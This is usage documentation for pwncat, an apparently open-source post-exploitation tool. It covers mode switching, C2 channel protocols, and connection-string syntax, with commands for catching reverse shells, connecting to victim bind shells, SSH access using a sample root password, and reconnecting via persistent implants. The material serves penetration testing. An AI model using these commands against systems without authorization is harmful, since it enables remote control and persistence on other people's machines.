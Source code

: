 Basic Usage
===========

There are two main operating modes while interacting with a victim in pwncat: remote and local. At any
given time, the prompt will include either ``(local)`` or ``(remote)`` to indicate the current mode.
When using local mode, you have access to pwncat-specific commands such as upload, download, use, run
and exit. In remote mode, you will have access to a platform-specific shell environment (e.g. bash or
powershell).

To toggle between these modes, you can use the ``C-d`` key combination. This combination is intercepted
by pwncat before being sent to the target when in remote mode. If you need to send a ``C-d``
combination directly to the target, you can use the ``C-k`` prefix. Prefixing ``C-d`` or ``C-k`` with
``C-k`` will tell pwncat to send the literaly ``C-d`` or ``C-k`` sequence to the target.

Command Line Interface and Start-up Sequence
--------------------------------------------

pwncat provides an entrypoint script which allows you to enter an unconnected pwncat prompt and
optionally immediately connect to a victim. The syntax for the pwncat entrypoint is largely identical
to the pwncat ``connect`` command. The arguments/syntax is described in the sections below.

In order to establish a connection, you must specify all needed channel arguments as well as specify
a platform name (e.g. ``linux`` or ``windows``). If no platform is specified, it is assumed to be
linux. This can cause hangs if connected to the incorrect platform.

C2 Channels
-----------

pwncat allows the use of a few different C2 channels when connecting to a victim. Originally, pwncat
wrapped a raw socket much like ``netcat`` with some extra features. As the framework was expanded, we have
moved toward abstracting this command and control layer away from the core pwncat features to allow
more ways of connection. Currently, only raw sockets and ``ssh`` are implemented. You can connect to a victim
with three different C2 protocols: ``bind``, ``connect``, and ``ssh``. The first two act like netcat. These
modes simply open a raw socket and assume there is a shell on the other end. In SSH mode, we legitimately
authenticate to the victim host with provided credentials and utilize the SSH shell channel as our C2 channel.

pwncat also implements SSL-wrapped versions of ``bind`` and ``connect`` protocols aptly named ``ssl-bind``
and ``ssl-connect``. These protocols function largely the same as bind/connect, except that they operate
over an encrypted SSL tunnel. You must use an encrypted bind or reverse shell on the victim side such
as ``ncat --ssl`` or `socat OPENSSL-LISTEN:`.

pwncat exposes these different C2 channel protocols via the ``protocol`` field of the connection string
discussed below.

Connecting to a Victim
----------------------

Connecting to a victim is accomplished through a connection string. Connection strings are versatile ways
to describe the parameters to a specific C2 Channel/Protocol. This looks something like:
``[protocol://][user[:password]]@[host:][port][?arg1=value&arg2=value]``

Each field in the connection string translates to a parameter passed to the C2 channel. Some channels don't
require all the parameters. For example, a ``bind`` or ``connect`` channel doesn't required a username or
a password. If there is not an explicit argument or parsed value within the above format, you can use the
query string arguments to specify arbitrary channel arguments. You cannot specify the same argument twice
(e.g. ``connect://hostname:1111?port=4444``).

If the ``protocol`` field is not specified, pwncat will attempt to figure out the correct protocol
contextually. The following rules apply:

- If a user and host are provided, assume ``ssh`` protocol
- If no user is provided but a host, port and the ``--ssl`` argument, assume protocol is ``ssl-connect``
- If no user is provided but a host and port are provided and no ``--ssl``, assume protocol is ``connect``
- If no user or host is provided (or host is ``0.0.0.0``) and the ``certfile``, ``keyfile``, or
  ``--ssl`` arguments are provided, protocol is assumed to be ``ssl-bind``
- If no user or host is provided (or host is ``0.0.0.0``), protocol is assumed to be ``bind``
- If a second positional integer parameter is specified and ``--ssl`` is not, the protocol is assumed
  to be ``connect``
- If a second positional integer parameter is specified and ``--ssl`` is provided, the protocol is
  assumed to be ``ssl-connect``
- If the ``-l`` parameter is used and the ``certfile``, ``keyfile``, or ``--ssl`` arguments are
  provided, the protocol is assumed to be ``ssl-bind``.
- If the ``-l`` parameter is used alone, then the protocol is assumed to be ``bind``

Connecting to a victim bind shell
---------------------------------

In this case, the victim is running a raw bind shell on an open port. The victim must be available at an
address which is routable (e.g. not NAT'd). The ``connect`` protocol provides this capability.

.. code-block:: bash
    :caption: Connecting to a bind shell at 1.1.1.1:4444

    # netcat syntax
    pwncat-vl 192.168.1.1 4444
    # Full connection string
    pwncat-vl connect://192.168.1.1:4444
    # Connection string with assumed protocol
    pwncat-vl 192.168.1.1:4444

Connecting to a victim encrypted bind shell
-------------------------------------------

In this case, the victim is running a ssl-wrapped bind shell on an open port. The victim must be available at an
address which is routable (e.g. not NAT'd). The ``ssl-connect`` protocol provides this capability.

.. code-block:: bash
    :caption: Connecting to a bind shell at 1.1.1.1:4444

    # Full connection string
    pwncat-vl connect://192.168.1.1:4444
    # ncat style syntax
    pwncat-vl --ssl 192.168.1.1 4444
    pwncat-vl --ssl 192.168.1.1:4444

Catching a victim reverse shell
-------------------------------

In this case, the victim was exploited in such a way that they open a connection to your attacking host
on a specific port with a raw shell open on the other end. Your attacking host must be routable from the
victim machine. This mode is accessed via the ``bind`` protocol.

.. code-block:: bash
    :caption: Catching a reverse shell

    # netcat syntax
    pwncat-vl -lp 4444
    # Full connection string
    pwncat-vl bind://0.0.0.0:4444
    # Assumed protocol
    pwncat-vl 0.0.0.0:4444
    # Assumed protocol, assumed bind address
    pwncat-vl :4444

Catching a victim encrypted reverse shell
-----------------------------------------

In this case, the victim was exploited in such a way that they open an ssl connection to your attacking host
on a specific port with a raw shell open on the other end. Your attacking host must be routable from the
victim machine. This mode is accessed via the ``ssl-bind`` protocol.

If the explicit ``ssl-bind`` protocol or the ``--ssl`` argument is provided without an explicit certfile
or keyfile, a self-signed certificate is generated with dummy attributes. The certfile and keyfile can
both point to the same bundled PEM file if both the key and certificate are present.

.. code-block:: bash
    :caption: Catching a reverse shell

    # ncat style syntax
    pwncat-vl --ssl --ssl-cert cert.pem --ssl-key cert.pem -lp 4444
    # Full connection string
    pwncat-vl ssl-bind://0.0.0.0:4444?certfile=/path/to/cert.pem&keyfile=/path/to/key.pem
    # Auto-generated self-signed certificate
    pwncat-vl --ssl -lp 4444
    # Auto-generated self-signed certificate with explicit protocol
    pwncat-vl ssl-bind://0.0.0.0:4444

Connecting to a Remote SSH Server
---------------------------------

If you were able to obtain a valid password or private key for a remote user, you can initiate a pwncat
session with the remote host over SSH. This mode is accessed via the ``ssh`` protocol. A note about
protocol assumptions: if there is an installed persistence method for a given user, then specifying only
a user and host will first try reconnecting via that persistence method. Afterwards, an ssh connection
will be attempted. If you don't want this behavior, you should explicitly specify ``ssh://`` for your
protocol.

.. code-block:: bash
    :caption: Connection to a remote SSH server

    # SSH style syntax (assumed protocol, prompted for password)
    pwncat-vl root@192.168.1.1
    # Full connection string with password
    pwncat-vl "ssh://root:r00t5P@ssw0rd@192.168.1.1"
    # SSH style syntax w/ identity file
    pwncat-vl -i ./root_id_rsa root@192.168.1.1

Connecting to a Windows Target
------------------------------

All of the above examples can also be used to connect to Windows targets as long as you explicitly specify
a platform during invocation. For example, to connect to a Windows bind shell at ``192.168.1.1:4444``:

.. code-block:: bash
    :caption: Connect to Windows bind shell

    # netcat syntax
    pwncat-vl -m windows 192.168.1.1 4444
    # Full connection string
    pwncat-vl -m windows connect://192.168.1.1:4444
    # Connection string with assumed protocol
    pwncat-vl -m windows 192.168.1.1:4444

Reconnecting to a victim
------------------------

pwncat has the capability to install, track, and remove persistent implants on a target. If you had a
previous connect to a target, and installed a persistent implant, you can use the pwncat entrypoint
to list available implants and attempt to reconnect to a given target. Reconnecting can be accomplished
with either the IP address or unique host ID of a target.

.. code-block:: bash
    :caption: List Installed Persistent Implants

    pwncat-vl --list

pwncat will attempt to reconnect to a host automatically if needed. Specifically, if no explicit protocol,
port, identity or password is specified, pwncat assumes you would like to be reconnected to the specified
host and attempts to reconnect via a matching implant prior to attempting direct connection.

.. code-block:: bash
    :caption: Reconnecting to a known host

    # Attempt reconnection as any user; specify host ID
    pwncat-vl 999c434fe6bd7383f1a6cc10f877644d
    # Attempt reconnection first as the specified user
    pwncat-vl user@192.168.1.1

